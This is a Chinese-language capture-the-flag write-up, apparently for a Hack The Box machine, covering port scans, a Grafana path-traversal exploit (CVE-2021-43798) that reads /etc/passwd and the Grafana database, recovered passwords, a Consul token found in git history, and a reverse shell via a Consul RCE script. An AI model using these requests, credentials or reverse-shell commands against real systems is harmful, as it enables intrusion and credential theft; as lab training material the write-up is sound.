



### 一、信息收集
1. 端口扫描
```shell
nmap -A 10.10.11.183
# 出现端口：80、22、3306、3000
# 从这边可以确定使用mysql数据库(3306)以及Node服务(3000)
```

2. 目录爆破

针对端口80和3306,使用`ffuf`工具进行爆破，没有找到有用的目录
```shell
# 80端口
ffuf -u "http://10.10.11.183/FUZZ" -w /home/kali/projects/fuzzDicts/directoryDicts/Filenames_or_Directories_All.txt

# 3000端口
ffuf -u "http://10.10.11.183:3000/FUZZ" -w /home/kali/projects/fuzzDicts/directoryDicts/Filenames_or_Directories_All.txt
```

3. 敏感信息收集
- 针对`80`端口
>  出现Hugo 0.94.2框架，但是网上基本找不到漏洞利用，因此放弃。
>  但是该页面提示需要使用需要使用`ssh` 进行登录且登录用户为`developer`



- 针对`3000`端口
> 出现平台`Grafana`，搜索发现存在文件任意文件读取漏洞，漏洞编号为:CVE-2021-43798
> 网络搜索相关利用文档


### 二、漏洞利用
1. 确认漏洞存在
- 使用bp获取端口`3000`的请求数据包，并进行更改
```http
GET /public/plugins/text/../../../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.183:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac 6666666666OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.1 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect_to=%2F
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
> 可以读取内容，因此可以利用

2. 下载默认数据库
```shell
curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db

### 下载后，使用sqlite3工具打开grafana.db，可以找到mysql数据库的密码：dontStandSoCloseToMe63221!
```

3. 连接mysql
> 经过数据库的查找，发现存在base64编码的密码：YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==
> 解码后:anEnglishManInNewYork027468




4. 获得shell
> ssh developer@10.10.11.183 登录即可


### 三、提权
1. 寻找可以使用的SUID文件
```shell
# 执行语句
find . -perm /4000

# 文件范围，没有找到可以使用的
usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/umount
```

2. 其他
- 在目录`/opt/my-app`发现`.gitignore`文件
-  查看git日志:git log
```shell
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

commit 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:47:01 2022 +0000

    created project with django CLI

commit 4b8597b167b2fbf8ec35f992224e612bf28d9e51
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:44:11 2022 +0000

    .gitignore
```

- 展示差异:git show 33a53ef9a207976d5ceceddc41a199558843bf3c
```shell
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```
> 获得token：bb03b43b-1d81-d62b-24b5-39540ee469b5

- 利用Hashicorp Consul Service API远程命令执行漏洞
> 利用路径:https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API
```shell
# 上传exploit.py文件
# 本地启动nc监听指定端口: nc -lvnp 4444
# 执行脚本:python3 exploit.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.10 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5

```